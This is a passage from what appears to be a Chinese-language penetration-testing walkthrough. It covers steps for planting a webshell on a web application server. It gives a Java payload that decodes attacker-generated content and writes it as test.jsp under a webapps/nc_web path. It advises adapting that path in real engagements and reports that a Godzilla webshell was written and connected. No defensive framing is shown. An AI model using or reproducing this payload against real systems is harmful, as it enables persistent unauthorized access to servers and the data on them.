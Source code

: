 2、再把输出结果进行url编码

![image_zZUpiKMWn1.png](assets/1698900866-a1c114681bab98ba5c2535df0b514c19.png)

3、payload字段如下，这里写入默认路径为 webapps/nc\_web ，实战中灵活应变

```php
String keyWord = URLDecoder.decode("xxxxxx（填入生成内容）xxxxxx", "utf-8");    
BufferedWriter out = new BufferedWriter(new FileWriter("/webapps/nc\_web/test.jsp"));  
out.write(keyWord);  
out.close();
```

这里直接写入哥斯拉马，连接成功

![b8xw2a-s9d_hjEIes_edE.png](assets/1698900866-d81d0257c12d1ae568edf919f780ac0b.png)
